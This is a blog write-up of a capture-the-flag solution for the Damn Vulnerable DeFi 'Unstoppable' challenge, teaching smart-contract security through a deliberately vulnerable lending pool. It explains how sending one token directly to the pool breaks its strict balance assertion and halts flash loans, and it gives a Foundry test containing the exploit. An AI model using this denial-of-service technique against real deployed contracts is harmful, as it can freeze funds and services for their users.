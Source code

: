 ```yaml
---
title: 'Damn Vulnerable DeFi Challenge #1 Solution — Unstoppable'
excerpt: 'Damn Vulnerable DeFi is the war game created by @tinchoabbate to learn offensive security of DeFi smart contracts.</br></br>Our end goal in this challenge is to DOS (Denial of Service) the contract, preventing anyone to interact with it.
'
coverImage: 
  url: '/assets/blog/ethereum.jpg'
  credit: 
    name: Nenad Novaković
    url: https://unsplash.com/@dvlden
date: '2022-04-02T07:00:00.000Z'
author:
  name: Emanuele Ricci
  twitter: StErMi
  picture: '/assets/blog/authors/stermi.jpeg'
ogImage:
  url: '/assets/blog/ethereum.jpg'
---
```


This is Part 1 of the ["Let’s play Damn Vulnerable DeFi CTF"](https://stermi.xyz/blog/lets-play-damn-vulnerable-defi) series, where I will explain how to solve each challenge.

> [Damn Vulnerable DeFi](https://www.damnvulnerabledefi.xyz/index.html) is the war game created by [@tinchoabbate](https://twitter.com/tinchoabbate) to learn offensive security of DeFi smart contracts.
> Throughout numerous challenges, you will build the skills to become a bug hunter or security auditor in the space.

## Challenge #1  —  Unstoppable

> There’s a lending pool with a million DVT tokens in balance, offering flash loans for free.  
> If only there was a way to attack and stop the pool from offering flash loans …You start with 100 DVT tokens in balance.

- [See contracts](https://github.com/tinchoabbate/damn-vulnerable-defi/tree/v2.0.0/contracts/unstoppable)
- [Hack it](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.0.0/test/unstoppable/unstoppable.challenge.js)

## The attacker end goal

Our end goal in this challenge is to DOS (Denial of Service) the contract, preventing anyone to interact with it.

How can we break things?

## Study the contracts

#### `UnstoppableLender`

Let’s see what’s inside the Lending platform `UnstoppableLender`

We can see that

- The contract is using Solidity `>0.8`. This mean that this contract will not be prone to underflow/overflow errors.
- The contract inherit from the OpenZeppelin’s ReentrancyGuard contract, so we can be sure that reentrancy will not be a problem.
- We assume that the DVT (Damn Vulnerable Token) token is a safe contract
- The `constructor` is correctly checking that the DVT token is not an empty address

Let’s see what’s inside the `flashLoan` function

- It checks that `borrowAmount` is not 0
- It correctly checks that the balance of the Lending Pool has enough tokens to sustain the flashloan to the user
- It’s checking that `poolBalance` (state variable that track token deposited on the pool by users) is equal to the actual token balance of the pool `damnValuableToken.balanceOf(address(_this_))`
- It will perform the flash loan
- It will check that the balance after the flashloan is greater than the balance before. This is needed becasue we want to be sure that the user has at least repaid their loan debt.   
  `uint256 balanceAfter = damnValuableToken.balanceOf(address(_this_)); require(balanceAfter >= balanceBefore, “Flash loan hasn’t been paid back”);`

The first thing that come to my mind is the [SWC-132: Unexpected Ether balance](https://swcregistry.io/docs/SWC-132) that says:

> Contracts can behave erroneously when they strictly assume a specific Ether balance. It is always possible to forcibly send ether to a contract (without triggering its fallback function), using selfdestruct, or by mining to the account. In the worst case scenario this could lead to DOS conditions that might render the contract unusable.

The same thing applies here. The Lending Pool is assuming that all the users will supply tokens to the pool via the `depositTokens` method that will update the `poolBalance` internal balance.

So, how can we break the assumption that `assert(poolBalance == balanceBefore);`?

It’s pretty simple: we just make our attacker that has 100 DVT tokens to send 1 token to the Lending Pool address directly

`token.transfer(address(pool), 1);`

Thereafter, you would have that `poolBalance` would still be 1M tokens but the real balance of the lending pool would be 1M+1

## Solution code

You can see the full solution in the repository of [Damn Vulnerable DeFi — Foundry edition](https://github.com/StErMi/forge-damn-vulnerable-defi)

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.10;

import {stdError} from "forge-std/stdlib.sol";

import "../../unstoppable/UnstoppableLender.sol";
import "../../unstoppable/ReceiverUnstoppable.sol";

import "../../DamnValuableToken.sol";

import {Utilities} from "../utils/Utilities.sol";
import {BaseTest} from "../BaseTest.sol";

contract UnstoppableLenderTest is BaseTest {

    uint TOKENS_IN_POOL = 1000000 ether;
    uint INITIAL_ATTACKER_TOKEN_BALANCE = 100 ether;

    DamnValuableToken token;
    UnstoppableLender pool;
    ReceiverUnstoppable receiverContract;

    address payable attacker;
    address payable someUser;

    constructor() {
        string[] memory labels = new string[](2);
        labels[0] = "Attacker";
        labels[1] = "Some User";

        preSetup(2, labels);
    }

    function setUp() public override {
        super.setUp();

        attacker = users[0];
        someUser = users[1];

        // setup contracts
        token = new DamnValuableToken();
        pool = new UnstoppableLender(address(token));

        // setup tokens
        token.approve(address(pool), TOKENS_IN_POOL);
        pool.depositTokens(TOKENS_IN_POOL);

        token.transfer(attacker, INITIAL_ATTACKER_TOKEN_BALANCE);

        assertEq(token.balanceOf(address(pool)), TOKENS_IN_POOL);
        assertEq(token.balanceOf(attacker), INITIAL_ATTACKER_TOKEN_BALANCE);

        vm.startPrank(someUser);
        receiverContract = new ReceiverUnstoppable(address(pool));
        receiverContract.executeFlashLoan(10);
        vm.stopPrank();
    }


    function test_Exploit() public {
        runTest();
    }

    function exploit() internal override {
        /** CODE YOUR EXPLOIT HERE */

        vm.prank(attacker);
        token.transfer(address(pool), 1);
    }

    function success() internal override {
        /** SUCCESS CONDITIONS */

        // It is no longer possible to execute flash loans
        vm.expectRevert(stdError.assertionError);
        vm.prank(someUser);
        receiverContract.executeFlashLoan(10);
    }
}
```

## Disclaimer

All Solidity code, practices and patterns in this repository are DAMN VULNERABLE and for educational purposes only.

DO NOT USE IN PRODUCTION.
